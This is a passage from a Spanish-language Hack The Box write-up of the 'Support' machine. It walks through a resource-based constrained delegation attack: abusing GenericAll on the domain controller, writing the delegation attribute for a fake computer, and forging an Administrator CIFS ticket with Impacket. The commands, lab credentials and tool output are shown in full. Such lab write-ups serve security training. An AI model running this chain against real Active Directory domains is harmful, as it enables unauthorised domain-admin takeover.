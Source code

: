 En este paso, se abusa del permiso `GenericAll` sobre el objeto de la máquina `DC`, lo cual permite modificar directamente el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity`. Este atributo define qué entidades pueden suplantar a cualquier usuario al autenticarse contra la máquina objetivo. Al asociar este atributo con `EVILCOMPUTER$`, se autoriza a dicho equipo a solicitar tickets de servicio S4U2Proxy en nombre de otros usuarios.

```terminal
(venv)-/home/kali/Documents/htb/machines/support:-$ /home/kali/Documents/tools/./rbcd.py -f EVILCOMPUTER -t dc -dc-ip 10.10.11.174 support.htb\\support:Ironside47pleasure40Watchful
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Starting Resource Based Constrained Delegation Attack against dc$
[*] Initializing LDAP connection to 10.10.11.174
[*] Using support.htb\support account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `EVILCOMPUTER` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `dc`
[*] Delegation rights modified succesfully!
[*] EVILCOMPUTER$ can now impersonate users on dc$ via S4U2Proxy
```

Solicito un TGT para que me permita impersonar al usuario `Administrator` frente al servicio CIFS de `dc.support.htb`.

```terminal
/home/kali/Documents/htb/machines/support:-$ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/EVILCOMPUTER$:ev1lP@sS
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

El ticket generado es un `ccache`, que requiere ser exportarlo como variable de entorno para que herramientas compatibles con Kerberos puedan utilizarlo automáticamente durante el proceso de autenticación.

```terminal
/home/kali/Documents/htb/machines/support:-$ export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache

/home/kali/Documents/htb/machines/support:-$ klist
Ticket cache: FILE:Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
Default principal: Administrator@support.htb

Valid starting     Expires            Service principal
04/06/25 22:26:53  04/07/25 08:26:51  cifs/dc.support.htb@SUPPORT.HTB
        renew until 04/07/25 22:26:50
```

